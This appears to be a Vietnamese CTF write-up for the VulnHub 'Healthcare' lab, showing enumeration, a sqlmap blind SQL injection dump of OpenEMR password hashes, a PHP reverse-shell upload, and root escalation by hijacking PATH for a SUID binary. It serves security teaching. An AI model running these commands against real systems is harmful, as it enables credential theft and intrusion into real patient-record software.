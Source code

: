 ```yaml
---
title: Healthcare Writeup - VulnHub
date: "2023-07-28 01:11:07"
categories:
  - CTF Writeup
  - VulnHub
tags:
  - hacking

pin: true
---
```


Download [Healthcare VulnHub](https://www.vulnhub.com/entry/healthcare-1,522/){:target="\_blank"}.

## Enumeration

![Scan Ports](/posts/Healthcare/scan-ports.PNG)
_Scan Ports and Services_

```shell
gobuster dir -u http://10.0.2.9/ -w /usr/share/wordlists/Seclists/Discovery/Web-Content/directory-list-2.3-big.txt -t 30
```

![Gobuster](/posts/Healthcare/gobuster.png)
_Directory fuzzing_

![Openemr login page](/posts/Healthcare/openemr-login.PNG)
_Openemr login page_

## Exploitation

Đã biết ứng dụng đang chạy Openemr - một phần mềm mã nguồn mở, quản lý hành nghề y tế gì đó. Đặc biệt hơn, Openemr v4.1.0 chứa lỗ hổng unauthenticated blind SQL injection, có mã [CVE-2012-2115](https://www.cvedetails.com/cve/CVE-2012-2115/){:target="\_blank"}. Sau khi nhấn login, thông tin sẽ được xác thực qua `validateUser.php`. Nếu user tồn tại thì truy vấn sẽ luôn trả về ít nhất 1 hàng. Đồng nghĩa với việc ta có thể chèn payload SQL injection tại đây và thực hiện `Blind SQL Injection`.

Dùng `sqlmap` để khai thác:

```shell
┌──(kali㉿kali)-[~]
└─$ sqlmap -u '10.0.2.9/openemr/interface/login/validateUser.php?u=1' -D openemr -T users -C username,password --dump --batch
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.7.6#stable}
|_ -| . [(]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org


.................

Database: openemr
Table: users
[2 entries]
+----------+----------------------------------------------------+
| username | password                                           |
+----------+----------------------------------------------------+
| admin    | 2de89a0a37f4a62dc4fa04f2637efcbba098ab44           |
| medical  | ab24aed5a7c4ad45615cd7e0da816eea39e4895d (medical) |
+----------+----------------------------------------------------+

```

Dump được 2 entries như trên, do tools đã crackhash được pasword của user `medical` nên ta dùng tài khoản này để login vô openemr luôn.

![Openemr Interface](/posts/Healthcare/openemr-interface.PNG)
_Giao diện sau khi login Openemr_

## Remote Code Execution

Sau khi đã đặt chân vào trang quản trị của Openemr v4.1.0, chúng ta có thể khai thác vuln mới có mã [CVE-2011-5161](https://www.cvedetails.com/cve/CVE-2011-5161/){:target="\_blank"}, cho phép người dùng upload file bất kì và không có bất cứ validation nào. Điều này giúp chúng ta dễ dàng upload và chạy reverse shell.

Tìm thủ công nơi có thể upload file, khả năng nhất là nơi update thông tin của bệnh nhân/khách hàng. Tiến hành truy cập đến `Patient/Client`>`New/Search`.

![Create New Patient](/posts/Healthcare/create-new-patient.PNG)
_Tạo mới 1 Patient_

Sau khi tạo xong, search và click vào Patient vừa tạo. Sau đó di chuyển tới `Documents` > `Patient Information` > `Patient Photograph`

![Patient A](/posts/Healthcare/a.PNG)

![Upload Page](/posts/Healthcare/upload-page.PNG)

Yah chính nó! Upload reverse shell php lên, chạy file và tạo 1 port listener tại máy local:

![Upload Revshell](/posts/Healthcare/upload-revshell.PNG)

![RCE](/posts/Healthcare/rce.PNG)
_RCE thành công!_

## Privilege Escalation

```shell
find / -perm -u=s 2>/dev/null
```

```
...
...
/usr/bin/healthcheck
...
...
```

Tiến hành tìm kiếm file SUID thì phát hiện file nhị phân trông lạ lạ này. Kiểm tra tệp này 1 chút:

```shell
sh-4.1$ ls -la /usr/bin/healthcheck
-rwsr-sr-x 1 root root 5813 Jul 29  2020 /usr/bin/healthcheck
```

File nhị phân này chạy dưới quyền root. Tất cả chỉ là thực hiện kiểm tra, Scan hệ thống, ổ đĩa,...

```shell
sh-4.1$ strings /usr/bin/healthcheck
/lib/ld-linux.so.2
__gmon_start__
libc.so.6
_IO_stdin_used
setuid
system
setgid
__libc_start_main
GLIBC_2.0
PTRhp
[^_]
clear ; echo 'System Health Check' ; echo '' ; echo 'Scanning System' ; sleep 2 ; ifconfig ; fdisk -l ; du -h
```

strings file đó ra thì có xuất hiện 1 số câu lệnh hệ thống, các câu lệnh được gọi không phải đường dẫn tuyệt đối và PATH cũng không được set trong nó. Từ đó, các câu lệnh được gọi trong file này sẽ bị ta thao túng bằng cách tạo 1 file có tên trùng với 1 trong các câu lệnh đó, đồng thời set PATH để file của ta sẽ được thực thi thay thế.

```shell
sh-4.1$ cd /tmp
sh-4.1$ export PATH=$(pwd):$PATH
sh-4.1$ echo "/bin/bash" > clear
```

```shell
sh-4.1$ healthcheck
TERM environment variable not set.
System Health Check

Scanning System
eth2      Link encap:Ethernet  HWaddr 08:00:27:54:37:D4
          inet addr:10.0.2.9  Bcast:10.0.2.255  Mask:255.255.255.0
          inet6 addr: fe80::a00:27ff:fe54:37d4/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:1481565 errors:0 dropped:0 overruns:0 frame:0
          TX packets:1576879 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:219434428 (209.2 MiB)  TX bytes:1884801187 (1.7 GiB)

lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:16436  Metric:1
          RX packets:160 errors:0 dropped:0 overruns:0 frame:0
          TX packets:160 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
          RX bytes:17440 (17.0 KiB)  TX bytes:17440 (17.0 KiB)


id
uid=0(root) gid=0(root) groups=0(root),416(apache)
```

```shell
python -c 'import pty;pty.spawn("/bin/bash")'
[root@localhost tmp]# cd /
[root@localhost root]# ls
Desktop/    drakx/        healthcheck.c  sudo.rpm
Documents/  healthcheck*  root.txt       tmp/
[root@localhost root]# cat root.txt
Flag day ne: QnJlYWtUZWFtX0ZsYWdfWE5YWC5DT01fQWhpaGk=
[root@localhost root]# echo "QnJlYWtUZWFtX0ZsYWdfWE5YWC5DT01fQWhpaGk="| base64 -d
BreakTeam_Flag_XNXX.COM_Ahihi
```
